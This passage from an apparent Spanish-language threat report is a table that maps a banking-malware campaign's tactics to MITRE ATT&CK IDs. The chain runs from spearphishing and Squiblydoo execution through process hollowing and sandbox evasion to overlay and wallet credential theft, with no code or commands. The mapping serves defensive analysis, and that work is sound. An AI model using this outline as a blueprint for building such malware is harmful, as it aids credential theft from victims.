| Resource Development | Adquisición y compromiso de infraestructura _(T1583, T1584)_ y de cuentas de correo _(T1586.002)_ |
| Initial Access       | Spearphishing mediante enlace _(T1566.002)_                                                     |
| Execution            | Ejecución por el usuario _(T1204)_, VBScript y JScript _(T1059.005/.007)_ y Squiblydoo _(T1218.010)_ |
| Persistence          | Ejecución automática mediante claves Run del registro _(T1547.001)_ |
| Defense Evasion      | Masquerading _(T1036)_, bypass de Mark-of-the-Web _(T1553.005)_, ofuscación y descifrado _(T1027, T1140)_, process hollowing _(T1055.012)_ y ocultamiento _(T1564.001)_ |
| Discovery            | Evasión de VM/sandbox _(T1497)_, perfilado del sistema _(T1082)_, detección de antivirus _(T1518.001)_ y consulta de IP pública _(T1016)_ |
| Command and Control  | Canales web y DNS _(T1071)_, descarga de etapas _(T1105)_, rotación de dominios _(T1568)_ y control remoto de pantalla _(T1219)_      |
| Collection           | Captura de credenciales mediante overlays bancarios _(T1056.002)_, captura de pantalla _(T1113)_ y robo de credenciales de wallets y navegadores _(T1555)_                               |
